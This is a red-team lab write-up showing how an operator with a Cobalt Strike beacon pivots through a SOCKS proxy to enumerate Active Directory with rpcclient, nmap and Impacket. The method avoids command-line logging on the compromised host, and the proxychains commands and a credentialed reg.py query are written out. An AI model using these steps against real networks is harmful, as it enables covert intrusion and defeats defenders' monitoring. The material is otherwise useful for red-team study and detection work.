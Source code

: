 # Enumerating Windows Domains with rpcclient through SocksProxy == Bypassing Command Line Logging

This lab shows how it is possible to bypass commandline argument logging when enumerating Windows environments, using Cobalt Strike and its socks proxy \(or any other post exploitation tool that supports socks proxying\). 

In other words - it's possible to enumerate AD \(or create/delete AD users, etc.\) without the likes of:

* net user
* net user &lt;bla&gt; /domain
* net user &lt;bla&gt; &lt;bla&gt; /add /domain
* net localgroup
* net groups /domain
* and similar commands

...which most likely are monitored by the blue team.

## Assumption

In this lab, it is assumed that the attacker/operator has gained:

* code execution on a target system and the beacon is calling back to the team server
* valid set of domain credentials for any `authenticated user`

## Lab Environment

| IP | What's behind |
| :--- | :--- |
| 10.0.0.5 | attacker with kali and `rpcclient` |
| 10.0.0.2 | compromised Windows system `WS01` |
| 10.0.0.6 | Windows DC `DC01` to be interrogated by 10.0.0.5 via 10.0.0.2 |
| 10.0.0.7 | Windows box `WS02` to be interrogated by 10.0.0.5 via 10.0.0.2 |

## Execution

The below shows a couple of things. First one - two Cobalt Strike sessions:

* PID 4112 - original beacon
* PID 260 - beacon injected into dllhost process

Second - attacker opens a socks4 proxy on port 7777 on his local kali machine \(10.0.0.5\) by issuing:

{% code title="attacker@cobaltstrike" %}
```text
socks 7777
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-05-00-08-58.png)

This means that the attacker can now use proxychains to proxy traffic from their kali box through the beacon to the target \(attacker ---&gt; beacon ---&gt; end target\).

Let's see how this works by firstly updating the proxychains config file:

{% code title="attacker@kali" %}
```text
nano /etc/proxychains.conf
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-04-23-20-21.png)

### Enumeration

Once proxychains are configured, the attacker can start enumerating the AD environment through the beacon like so:

{% code title="attacker@kali" %}
```text
proxychains rpcclient 10.0.0.6 -U spotless
enumdomusers
```
{% endcode %}

![Victim \(10.0.0.2\) is enumerating DC \(10.0.0.6\) on behalf of attacker \(10.0.0.5\)](../../.gitbook/assets/screenshot-from-2019-02-05-20-22-43.png)

Moving on, same way, they can query info about specific AD users:

{% code title="attacker@kali" %}
```text
queryuser spotless
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-04-23-34-33.png)

Enumerate current user's privileges and many more \(consult rpcclient for all available commands\):

{% code title="attacker@kali" %}
```text
enumprivs
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-04-23-34-42.png)

Finally, of course they can run nmap if needed:

{% code title="attacker@kali" %}
```csharp
proxychains nmap 10.0.0.6 -T4 -p 21,22,23,53,80,443,25 -sT
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-02-04-23-36-48.png)

### Impacket

Impacket provides even more tools to enumerate remote systems through compromised boxes. See the below example gif. 

This is what happens - attacker \(10.0.0.5\) uses proxychains with impacket's reg utility to retrieve the hostname of the box at 10.0.0.7 \(WS02\) via the compromised \(CS beacon\) box 10.0.0.2 \(WS01\):

{% code title="attacker@kali" %}
```csharp
proxychains reg.py offense/administrator:123456@10.0.0.2 -target-ip 10.0.0.7 query -keyName hklm\system\currentcontrolset\control\computername\computername
```
{% endcode %}

The below shows traffic captures that illustrate that the box 10.0.0.2 enumerates 10.0.0.7 using SMB traffic only:

![](../../.gitbook/assets/peek-2019-02-09-19-50.gif)

Below further proves that the box 10.0.0.2 \(WS01 which acted as proxy\) did not generate any sysmon logs and the target box 10.0.0.7 \(WS02\) logged a couple of events, that most likely would not attract much attention from the blue teams:

![](../../.gitbook/assets/screenshot-from-2019-02-09-19-59-58.png)

## Observations

Note how only the SMB traffic between the compromised system and the DC is generated, but no new processes are spawned by the infected `dllhost` process:

![](../../.gitbook/assets/peek-2019-02-05-20-24.gif)

![](../../.gitbook/assets/screenshot-from-2019-02-04-23-18-20.png)

## References

{% embed url="https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html" %}

{% embed url="https://github.com/SecureAuthCorp/impacket/tree/master/examples" %}

{% embed url="https://www.cobaltstrike.com/help-socks-proxy-pivoting" %}

{% embed url="https://www.youtube.com/watch?v=l8nkXCOYQC4&index=19&list=WL&t=7s" %}



